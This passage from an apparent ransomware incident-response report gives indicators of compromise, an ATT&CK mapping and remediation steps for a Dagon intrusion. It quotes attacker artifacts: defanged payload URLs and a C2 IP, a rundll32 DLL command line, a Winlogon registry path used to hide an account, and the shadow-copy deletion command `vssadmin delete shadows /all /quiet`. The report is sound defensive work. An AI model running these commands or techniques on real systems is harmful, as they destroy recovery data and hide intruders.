| Domain     | `file[.]io`                            | Public file sharing service and second-stage payload infrastructure, suspected CobaltStrike malware family. |
| File       | `Document_Scan_468.js`                 | Phishing-delivered JavaScript responsible for initial compromise of `dana.k`                                |
| File       | `%TEMP%\magni.waut.a`                  | First-stage file retrieved through `curl` child-process from `Document_Scan_468.js` link                    |
| File       | `C:\ProgramData\update.dll`            | Second-stage DLL used across the execution chain                                                            |
| File       | `\\MER-FS01\Finance\passwords.xlsx`    | Credential-themed network file read by the compromised process                                              |
| Tool       | `C:\ProgramData\AnyDesk.exe`           | Remote-access software executed after DC compromise likely for `FS01` persistence                           |
| Tool       | `C:\ProgramData\rclone.exe`            | Cloud-copy utility used with an AWS S3 configuration for Exfiltration                                       |
|  File      | `C:\ProgramData\microsoft\sysfunc.dll` | On-disk ransomware payload executed before `.dagoned` encrypted ransomware files appeared                   |
| Extension  | `.dagoned`                             | Encryption-impact indicator supporting Dagon attribution found across multiple accounts                     |

### 4.8 Indicators of Compromise

Note: the available resources fail to disclose atomic-level malware attributes, thereby, the following indicators do not include hashes or attribution. Additionally, LotL tactics were highly prevalent, but legitimate services/software were only malicious by context, so they do not appear in the IoC chart. 

| Indicator type | Indicator                                                                                              | Observed role and evidence                                                                                                                                                                                                                                                                                                     | Confidence               |
| -------------- | ------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------ |
| Email address  | `billing@doc-scan-portal[.]com`                                                                        | Sender of the phishing message titled `Scanned Document 468`. ([Section 4.1](#41-initial-access-assessment-and-contributing-control-gaps))                                                                                                                                                                                     | High                     |
| URL            | `hxxps://moashraya[.]com/scan/468`                                                                     | Malicious link contained in the phishing message. ([Section 4.1](#41-initial-access-assessment-and-contributing-control-gaps))                                                                                                                                                                                                 | High                     |
| URL            | `hxxps://moashraya[.]com/scan/468/Document_Scan_468.js`                                                | Malicious JavaScript resource successfully retrieved through an HTTP `GET` request. ([Section 4.1](#41-initial-access-assessment-and-contributing-control-gaps))                                                                                                                                                               | High                     |
| Filename       | `Document_Scan_468.js`                                                                                 | Phishing-delivered JavaScript that initiated the observed execution chain. ([Section 4.1](#41-initial-access-assessment-and-contributing-control-gaps) and [Section 4.2](#42-execution-foothold-and-command-and-control))                                                                                                      | High                     |
| URL            | `hxxps://moashraya[.]com/out/t.php`                                                                    | Source used by `curl` to retrieve the first-stage file. ([Section 4.2](#42-execution-foothold-and-command-and-control))                                                                                                                                                                                                        | High                     |
| File path      | `%TEMP%\magni.waut.a`                                                                                  | First-stage file written by `curl` and subsequently loaded through `rundll32.exe`. ([Section 4.2](#42-execution-foothold-and-command-and-control))                                                                                                                                                                             | High                     |
| URL            | `hxxps://file[.]io/OUXPza4b4uxZ`                                                                       | Specific file-sharing URL used by PowerShell to retrieve `update.dll`. The `file[.]io` service itself is legitimate and should not be treated as malicious in its entirety. ([Section 4.2](#42-execution-foothold-and-command-and-control))                                                                                    | High                     |
| File path      | `C:\ProgramData\update.dll`                                                                            | Second-stage DLL loaded through `rundll32.exe` and associated with subsequent C2 activity. Cobalt Strike attribution relies on campaign correlation rather than local binary analysis. ([Section 4.2](#42-execution-foothold-and-command-and-control) and [Section 4.4](#44-lateral-movement-and-domain-controller-execution)) | High                     |
| Command line   | `rundll32.exe C:\ProgramData\update.dll,HTVIyKUVoTzv`                                                  | Execution of the second-stage DLL through its named export; also observed during WMI-based lateral execution. ([Section 4.4](#44-lateral-movement-and-domain-controller-execution))                                                                                                                                            | High                     |
| Domain         | `winupdate[.]us[.]to`                                                                                  | Domain resolved by the suspicious `rundll32.exe` process during the C2 sequence. Associated with CobaltStrike infrastructure through campaign correlation. ([Section 4.2](#42-execution-foothold-and-command-and-control))                                                                                                     | High                     |
| IP address     | `51[.]89[.]133[.]3`                                                                                    | External address contacted by `rundll32.exe` over TCP port 443 and associated with `winupdate[.]us[.]to`. ([Section 4.2](#42-execution-foothold-and-command-and-control))                                                                                                                                                      | High                     |
| Scheduled task | `\MicrosoftUpdateSync`                                                                                 | Task created during the initial compromise. The task action was unavailable, so the name is meaningful only with its timing and surrounding malicious activity. ([Section 4.2](#42-execution-foothold-and-command-and-control))                                                                                                | Medium                   |
| File path      | `C:\ProgramData\AnyDesk.exe`                                                                           | Remote-access software executed from `ProgramData` beneath the malicious process chain. AnyDesk is legitimate software and is contextual rather than inherently malicious. ([Section 4.5](#45-persistence-and-continued-access))                                                                                               | High in this incident    |
| Account        | `oldadministrator`                                                                                     | Local account created on `MER-FS01` and subsequently concealed through a Winlogon registry edit. ([Section 4.5](#45-persistence-and-continued-access))                                                                                                                                                                         | High                     |
| Registry value | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList\oldadministrator` | Registry value used to hide `oldadministrator` from the normal Windows logon interface. ([Section 4.5](#45-persistence-and-continued-access))                                                                                                                                                                                  | High                     |
| rclone remote  | `remote:mer-backup-9f2`                                                                                | Locally configured rclone destination used in the observed AWS S3 copy command. ([Section 4.6](#46-exfiltration-recovery-inhibition-and-impact))                                                                                                                                                                               | High as a local artifact |
| File path      | `C:\ProgramData\microsoft\sysfunc.dll`                                                                 | DLL executed immediately before `.dagoned` file creation; assessed as the on-disk ransomware payload. ([Section 4.6](#46-exfiltration-recovery-inhibition-and-impact))                                                                                                                                                         | High                     |
| File extension | `.dagoned`                                                                                             | Extension applied to encrypted files, supporting Dagon ransomware attribution when corroborated with local evidence and OSINT ([Section 4.6](#46-exfiltration-recovery-inhibition-and-impact))                                                                                                                                 | High                     |

### 4.9 MITRE ATT&CK Mapping

| Phase                         | Assessed behavior                                                               | ATT&CK mapping                                                                                                                                                                          | Basis                                                                     |
| ----------------------------- | ------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------- |
| Initial access                | Malicious email link led to JavaScript retrieval                                | [T1566.002 — Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)                                                                                                        | Proofpoint plus proxy correlation                                         |
| Execution                     | User-associated JavaScript execution spawned command shell                      | [T1204.002 — Malicious File](https://attack.mitre.org/techniques/T1204/002/), [T1059.007 — JavaScript/JScript](https://attack.mitre.org/techniques/T1059/007/)                          | `wscript.exe` → `cmd.exe` chain                                           |
| Execution                     | Native `rundll32.exe` loaded malicious DLL exports                              | [T1218.011 — Rundll32](https://attack.mitre.org/techniques/T1218/011/)                                                                                                                  | Recorded DLL command lines                                                |
| Persistence                   | Scheduled task `\MicrosoftUpdateSync` created                                   | [T1053.005 — Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)                                                                                        | Windows Event 4698                                                        |
| Command and control           | Additional payload retrieved into `ProgramData`                                 | [T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)                                                                                                             | PowerShell `DownloadFile` and prior `curl`                                |
| Command and Control           | Compromised account established connection to known CobaltStrike infrastructure | [T1071.001 Web Protocols](https://attack.mitre.org/techniques/T1071/001/)                                                                                                               | Sysmon 3 and `winupdate.us.to`                                            |
| Discovery                     | Domain controllers and privileged group membership enumerated                   | [T1018 — Remote System Discovery](https://attack.mitre.org/techniques/T1018/), [T1069.002 — Permission Groups Discovery: Domain Groups](https://attack.mitre.org/techniques/T1069/002/) | `nltest` and `net group` commands                                         |
| Credential access             | LSASS memory access attempted                                                   | [T1003.001 — OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)                                                                                       | Sysmon Event 10; success not independently confirmed                      |
| Credential access             | Credential-themed file read from network share                                  | [T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)                                                                               | Windows Event 4663 `0x1` access to `passwords.xlsx`                       |
| Lateral movement / execution  | Valid domain account used for network logon and WMI execution                   | [T1078.002 — Valid Accounts: Domain Accounts](https://attack.mitre.org/techniques/T1078/002/), [T1047 — Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/) | Windows Event 4624 plus source/destination process correlation            |
| Persistence                   | Remote-access software executed                                                 | [T1219 — Remote Access Software](https://attack.mitre.org/techniques/T1219/)                                                                                                            | AnyDesk process on `FS01`                                                 |
| Persistence / defense evasion | Additional local account created and hidden                                     | [T1136.001 — Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/), [T1112 — Modify Registry](https://attack.mitre.org/techniques/T1112/)                      | Windows Event 4720 for and Sysmon Event 13 for `oldadministrator` account |
| Exfiltration                  | rclone configured to copy data to AWS S3                                        | [T1567.002 — Exfiltration to Cloud Storage](https://attack.mitre.org/techniques/T1567/002/)                                                                                             | Windows Event 4688 command line                                           |
| Impact                        | Shadow-copy deletion command launched                                           | [T1490 — Inhibit System Recovery](https://attack.mitre.org/techniques/T1490/)                                                                                                           | `vssadmin delete shadows /all /quiet`                                     |
| Defense evasion               | Windows Security audit log cleared                                              | [T1070.001 — Clear Windows Event Logs](https://attack.mitre.org/techniques/T1070/001/)                                                                                                  | Windows Event 1102                                                        |
| Impact                        | Files encrypted and renamed `.dagoned`                                          | [T1486 — Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486/)                                                                                                         | `sysfunc.dll` execution plus file-creation telemetry                      |

## 5. Impact Analysis

### Confirmed or strongly supported

- Initial compromise of `mer-wks-114.corp.local` under `CORP\dana.k`.
- Credential-access activity involving LSASS and `passwords.xlsx`.
- Authenticated remote execution on `MER-DC01` using `CORP\t.reyes`.
- Execution of AnyDesk and creation/concealment of `oldadministrator` on `MER-FS01`.
- Exfiltration to AWS S3 via rclone copy command from `MER-FS01`.
- Attempted deletion of shadow copies on `MER-DC01`.
- Clearing of the Windows Security audit log.
- Dagon-associated encryption activity on `MER-DC01`.

### Not established by the supplied evidence alone

- Exact credentials obtained from LSASS or `passwords.xlsx`.
- Exact exfiltrated files, volume, or success of S3 object creation.
- Blast-radius including additional compromised accounts and systems.
- Successful completion and scope of shadow-copy deletion.
- `oldadministrator` created account purpose or privilege status.
- Attribution to a specified entity; RaaS is used by numerous adversaries

## 6. Recommended Actions and Additional Collection

### Immediate containment

1. Isolate `mer-wks-114`, `mer-dc01`, and `mer-fs01`; preserve volatile evidence before shutdown where feasible.
2. Disable or reset `dana.k`, `t.reyes`, and `oldadministrator`; revoke active sessions and investigate all use of those identities.
3. Block the identified domains, IP address, URLs, filenames, hashes, and unauthorized AWS/rclone destinations.
4. Restrict WMI remote execution and AnyDesk until authorized use can be distinguished from the incident.

### Eradication and recovery

1. Remove the scheduled task, staged payloads, unauthorized remote-access tooling, concealed account, and related registry changes after evidence preservation.
2. Rebuild affected hosts from known-good backups where integrity cannot be validated.
3. Validate offline or immutable backups before restoration; do not rely on local shadow copies.
4. Perform scoped credential rotation beginning with privileged and service accounts exposed to the affected systems.

### Additional evidence collection

- Acquire EDR timelines, memory captures, disk images, PowerShell logs, task XML, account/group-change records, VSS operational logs, and authentication telemetry.
- Review network-flow records for the `rclone` destination, transferred objects, and transfer completion.
- Search enterprise-wide for the identified files, domains, commands, PIDs/ProcessGUIDs where applicable, and `.dagoned` creation.
- Determine whether `oldadministrator` received local Administrators membership and whether AnyDesk established an external session.

### Control improvements

- Establish a quarantine zone for MALWARE classifications within the proofpoint tap email proxy. 
- Reconfigure or add EDR solutions for suspicious behavior chains and/or update/create EDR rules based on suspicious behavior chains
- Additional logging of `rundll32.exe` loading DLLs from user-writable directories, remote WMIC process creation, LSASS access, hidden-account registry changes, unauthorized rclone/AnyDesk execution, VSS deletion, and Event 1102; in such events, greater logging should have been witnessed than was in the record
- Remove plaintext credential files from shared locations and enforce privileged-access separation and credential hygiene.
- Restrict outbound access to unsanctioned file-sharing and cloud-storage services.
- Re-organize authentication requirements for Domain Controllers and File Systems

## 7. Investigative Lessons Learned

- Cross-source correlation was essential: no single log described the entire intrusion.
- Process ancestry, command lines, account/host identity, and time were generally more useful than severity labels alone.
- Source and destination-side process-ID matching allowed stronger validation than behavior or OSINT corroborations.
- Endpoint process creation must be separated from command outcome. Event 1102 validated log clearing, not VSS deletion; rclone execution did not independently prove transfer completion. While investigations may benefit from observed activity, validation is required for claims, particularly where impact, attribution, and control improvements are concerned.
- Early establishment of reputable OSINT campaign research allowed far stronger hypotheses and better informed investigative pivots throughout.
